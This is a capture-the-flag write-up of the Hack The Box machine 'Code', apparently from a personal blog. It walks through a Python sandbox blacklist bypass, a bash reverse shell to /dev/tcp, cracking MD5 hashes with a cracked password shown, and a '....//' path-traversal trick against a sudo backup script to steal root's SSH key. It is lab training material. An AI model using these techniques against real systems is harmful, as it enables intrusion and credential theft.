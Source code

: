 ```yaml
---
title: HTB Code - Writeup
date: 2025-04-05 21:53:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Code from Hack The Box 

---
```


![](assets/img/Code.png)

## - **Recon & Enum**
Starting with an Nmap scan as always
```
$ sudo nmap -sC -sV -oN code_nmap --min-rate=1000 10.10.11.62 -p-

Nmap scan report for 10.10.11.62
Host is up (0.47s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

On port 5000 there is a python editor sandbox, but we have to bypass some restrictions on keywords such as `import` so we can write arbitrary code. At first, I checked if the blacklist was actually in a list or tuple so we can empty it which did not work so I used a list of integers to represent bytes and `getaddr` to run the commands.
>you can get the list of ints of any string with `list(b'<str>')` inside python
{: .prompt-tip }

## - **Foothold**

![](assets/img/code_chr.png)
here I got the module `os` as it is blacklisted
![](assets/img/code_bypass.png)
and here I got to execute commands and also read the output.  
Now all we have to do is to get a reverse shell

```python
op=[111,115]
sys=[115, 121, 115, 116, 101, 109]
pop=[112, 111, 112, 101, 110]
brd=[114, 101, 97, 100]

o=globals().get(bytes(op).decode())
s=bytes(locals().get("sys")).decode()
p=bytes(locals().get("pop")).decode()
b=bytes(locals().get("brd")).decode()

att = getattr(o,p)("bash -c 'bash -i >& /dev/tcp/*.*.*.*/8080 0>&1'")
#print(getattr(att,b)())
```

- `op`: the os module  
- `sys`: system attribute  
- `pop`: popen attribute  
- `brd`: read builtin function  

```
$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.62] 42172
bash: cannot set terminal process group (6456): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$
```

## - **User**

When I was checking the global variables in the editor, I noticed a `db` and inside it pointed to `/home/app-production/app/instance/database.db` and from it I got two hashes, one for user `development` and one for `martin`.  
I used hashcat to crack them and got the user.

```
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
$ hashcat --show hash.txt -m 0                          
759b74ce43947f5f4c91aeddc3e5bad3:development
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

```
$ ssh martin@10.10.11.62

martin@code:~$ id
uid=1000(martin) gid=1000(martin) groups=1000(martin)
```



## - **Root**

```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
As you can see, we can run backy.sh as root. It is some sort of a backup script and we can change the path of backing up by altering `task.json` in the backups folder. The script only acceptes paths starting with either `/home` or `/var` and will remove `../` from them, so what if we add double dots before and a slash after that like this `....//` ?
```
martin@code:~/backups$ cat task.json 
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root"
  ],
  "exclude": []
}
```

you guessed it, we got the root folder
```
martin@code:~/backups$ sudo backy.sh task.json 
2025/07/26 21:03:11 🍀 backy 1.2
2025/07/26 21:03:11 📋 Working with task.json ...
2025/07/26 21:03:11 💤 Nothing to sync
2025/07/26 21:03:11 📤 Archiving: [/home/../root]
2025/07/26 21:03:11 📥 To: /home/martin/backups ...
2025/07/26 21:03:11 📦
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.local/
/home/../root/.local/share/
/home/../root/.local/share/nano/
/home/../root/.local/share/nano/search_history
/home/../root/.selected_editor
/home/../root/.sqlite_history
/home/../root/.profile
/home/../root/scripts/
/home/../root/scripts/cleanup.sh
/home/../root/scripts/backups/
/home/../root/scripts/backups/task.json
/home/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/../root/scripts/database.db
/home/../root/scripts/cleanup2.sh
/home/../root/.python_history
/home/../root/root.txt
/home/../root/.cache/
/home/../root/.cache/motd.legal-displayed
/home/../root/.ssh/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/.bash_history
/home/../root/.bashrc
```
Now, even though we got the flag, the most important part is to get the shell, to have FULL CONTROL!  
this machine did the job for us and put the id_rsa file right in the root directory.
```
$ ssh root@10.10.11.62 -i id_rsa

root@code:~# id
uid=0(root) gid=0(root) groups=0(root)	
root@code:~#
```
and DONE!

![](assets/img/code_congrats.png)
